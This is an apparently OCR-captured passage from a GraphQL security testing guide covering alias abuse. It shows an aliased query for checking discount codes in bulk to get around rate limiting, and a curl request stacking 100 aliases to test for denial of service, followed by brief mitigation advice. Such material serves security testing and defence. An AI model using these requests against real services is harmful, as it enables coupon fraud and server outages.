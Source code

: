 ```
Consider the example provided below, which illustrates how aliased queries can be used to verify the validity of store discount codes. This method could sidestep rate limiting since it compiles several queries into one HTTP request, potentially allowing for the verification of numerous discount codes simultaneously.

```bash
# Example of a request utilizing aliased queries to check for valid discount codes
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```
```
## DoS in GraphQL

### Alias Overloading

**Alias Overloading** is a GraphQL vulnerability where attackers overload a query with many aliases for the same field, causing the backend resolver to execute that field repeatedly. This can overwhelm server resources, leading to a **Denial of Service (DoS)**. For example, in the query below, the same field (`expensiveField`) is requested 1,000 times using aliases, forcing the backend to compute it 1,000 times, potentially exhausting CPU or memory:

```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "Content-Type: application/json" \
    -d '{"query": "{ alias0:__typename \nalias1:__typename \nalias2:__typename \nalias3:__typename \nalias4:__typename \nalias5:__typename \nalias6:__typename \nalias7:__typename \nalias8:__typename \nalias9:__typename \nalias10:__typename \nalias11:__typename \nalias12:__typename \nalias13:__typename \nalias14:__typename \nalias15:__typename \nalias16:__typename \nalias17:__typename \nalias18:__typename \nalias19:__typename \nalias20:__typename \nalias21:__typename \nalias22:__typename \nalias23:__typename \nalias24:__typename \nalias25:__typename \nalias26:__typename \nalias27:__typename \nalias28:__typename \nalias29:__typename \nalias30:__typename \nalias31:__typename \nalias32:__typename \nalias33:__typename \nalias34:__typename \nalias35:__typename \nalias36:__typename \nalias37:__typename \nalias38:__typename \nalias39:__typename \nalias40:__typename \nalias41:__typename \nalias42:__typename \nalias43:__typename \nalias44:__typename \nalias45:__typename \nalias46:__typename \nalias47:__typename \nalias48:__typename \nalias49:__typename \nalias50:__typename \nalias51:__typename \nalias52:__typename \nalias53:__typename \nalias54:__typename \nalias55:__typename \nalias56:__typename \nalias57:__typename \nalias58:__typename \nalias59:__typename \nalias60:__typename \nalias61:__typename \nalias62:__typename \nalias63:__typename \nalias64:__typename \nalias65:__typename \nalias66:__typename \nalias67:__typename \nalias68:__typename \nalias69:__typename \nalias70:__typename \nalias71:__typename \nalias72:__typename \nalias73:__typename \nalias74:__typename \nalias75:__typename \nalias76:__typename \nalias77:__typename \nalias78:__typename \nalias79:__typename \nalias80:__typename \nalias81:__typename \nalias82:__typename \nalias83:__typename \nalias84:__typename \nalias85:__typename \nalias86:__typename \nalias87:__typename \nalias88:__typename \nalias89:__typename \nalias90:__typename \nalias91:__typename \nalias92:__typename \nalias93:__typename \nalias94:__typename \nalias95:__typename \nalias96:__typename \nalias97:__typename \nalias98:__typename \nalias99:__typename \nalias100:__typename \n }"}' \
    'https://example.com/graphql'
```
```
To mitigate this, implement alias count limits, query complexity analysis, or rate limiting to prevent resource abuse.

### **Array-based Query Batching**

```